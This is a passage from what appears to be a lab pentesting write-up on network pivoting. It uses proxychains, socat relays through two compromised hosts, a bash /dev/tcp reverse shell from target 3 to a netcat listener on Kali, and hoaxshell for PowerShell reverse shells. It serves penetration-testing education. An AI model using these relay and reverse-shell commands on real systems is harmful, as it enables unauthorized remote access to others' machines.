 of course, to see webpage via browser we need to reconfigure proxy settings or foxy proxy.

Very good, we can access to target 3 using: `proxychains ssh ubuntu@30.30.30.4`

But we've always the same problem, we can't reach out kali from target 3 and spawn a rev shell.

We can solve it establish a new session of socat on target 2, which will establish a connection starting from machine 2, passing through 1, until arriving at kali.

<pre class="language-bash"><code class="lang-bash">#Target 2
./socat tcp-l:3333,fork,reuseaddr tcp:20.20.20.7:4444 #tcp-l: listening port, send data to tcp:attacker:port
<strong>#Target 1
</strong>./socat tcp-l:4444,fork,reuseaddr tcp:10.10.10.4:2222  #tcp-l: listening port, send data to tcp:attacker:port
</code></pre>

### Reverse Shell

{% embed url="https://www.revshells.com/" %}

We create a  bash reverse shell using target 2 IP machine (on the same subnet of target 3), and listening on kali machine using netcat:

```bash
#Kali
nc -nvlp 2222 #same port of socat on target 1
#Target 3
sh -i >& /dev/tcp/30.30.30.5/3333 0>&1
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure></div>

Great, we're in target 3 machine!

#### In addition, we can use this tool to create a powershell reverse shell for Windows machine to communicate back to attacker machine (kali).

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

```bash
python hoaxshell.py -s <Victim_IP> -p 9999
```

it generates a reverse shell payload on execute on windows victim machine using powershell.

It permits us to obtain a reverse shell connection with windows victim machine on our attacker kali machine.
